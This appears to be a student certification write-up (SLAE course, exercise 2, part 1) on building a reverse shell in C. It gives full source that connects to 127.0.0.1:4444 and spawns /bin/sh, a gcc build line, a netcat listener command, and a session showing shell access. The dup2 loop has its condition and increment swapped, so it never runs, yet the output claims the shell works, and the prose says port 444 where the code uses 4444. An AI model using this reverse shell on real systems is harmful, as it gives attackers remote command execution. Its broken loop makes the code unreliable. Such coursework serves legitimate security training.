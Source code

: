 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 14183.

This is part 1/4 of the exercice 2.

# Exo 2 - Reverse shellcode - Part 1 - C Reverse Shell

### C Reverse Shell - Creation

Reverse shell creation is simpler in a C point of view. First a socket is created, then a connection to the target is done and at last STDIN/STDOUT/STDERR are redirect and execve is run.

The reverse shell starts and ends as the bind shell

```
int main()
{
	int my_socket = socket(AF_INET, SOCK_STREAM, 0);

	// NEW THINGS HERE 

	int i;
	for(i = 0; i++; i <3)
		dup2(client, i);

	execve("/bin/sh", NULL, NULL);
	return 0;
}
```

*Socket *usage is easy to understant using the manual

```
NAME
       connect - initiate a connection on a socket

SYNOPSIS
       #include <sys/types.h>
       #include <sys/socket.h>

       int connect(int sockfd, const struct sockaddr *addr,
                   socklen_t addrlen);
```

Again a *sockaddr* structure must be created, the only change here is we are using our target IP address. In order to have an C formated IP address, *inet_addr *function is used.

From the manual:
```
The inet_addr() function converts the Internet host address cp from IPv4 numbers-and-dots notation into binary data in network byte order.
```

### C Reverse Shell - Final code
```
#include <sys/types.h>
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET, SOCK_STREAM, 0);
	struct sockaddr_in my_sockaddr;
	my_sockaddr.sin_family = AF_INET;
    	my_sockaddr.sin_addr.s_addr = inet_addr("127.0.0.1");
    	my_sockaddr.sin_port = htons(4444);

    	connect(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));

	int i;
	for(i = 0; i++; i <3)
		dup2(my_socket, i);

	execve("/bin/sh", NULL, NULL);
	return 0;
}

```
### Testing the reverse shell

First, the C file is compiled.
```
cervoise@slae:~/exam/reverse$ gcc reverse_shell.c -o reverse_shell
```
Then netcat is used to listen on port 444
```
cervoise@slae:~/exam/reverse$ nc -lv 4444
```

And by running the ELF binary, a (local) reverse shell is gain
```
cervoise@slae:~/exam/reverse$ ./reverse_shell 
$ id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ exit
```

# Exo 2 - Reverse shellcode - Part 2 - Reverse Shellcode

# Exo 2 - Reverse shellcode - Part 3 - Optimized Reverse Shellcode

# Exo 2 - Reverse shellcode - Part 4 - Reverse Shellcode Generator
